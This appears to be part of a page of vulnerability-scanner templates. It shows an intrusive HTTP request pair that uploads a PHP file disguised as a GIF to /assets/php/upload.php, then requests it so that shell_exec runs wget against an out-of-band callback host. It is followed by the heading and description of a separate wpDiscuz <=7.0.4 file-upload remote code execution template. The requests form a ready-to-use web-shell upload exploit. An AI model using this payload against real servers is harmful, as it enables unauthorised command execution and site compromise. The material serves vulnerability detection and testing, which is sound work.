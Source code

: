 ## Requests

### Step - 1

```
POST /assets/php/upload.php HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip, deflate
Accept: text/plain, */*; q=0.01
Connection: close
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: http://{{Hostname}}
Referer: http://{{Hostname}}

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name="fileToUpload"; filename="{{randstr}}.php"
Content-Type: image/gif

GIF89a213213123<?php shell_exec("wget -c http://{{interactsh-url}}");

-----------------------------31046105003900160576454225745--

```

### Step - 2

```
GET /assets/data/usrimg/{{tolower("{{randstr}}.php")}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# WordPress wpDiscuz \<=7.0.4 - Remote Code Execution

## Description

- WordPress wpDiscuz plugin versions version 7.0 through 7.0.4 are susceptible to remote code execution. This flaw gave unauthenticated attackers the ability to upload arbitrary files, including PHP files, and achieve remote code execution on a vulnerable site's server.
- severity - critical
- tags - rce,fileupload,packetstorm,cve,cve2020,wordpress,wp-plugin,intrusive
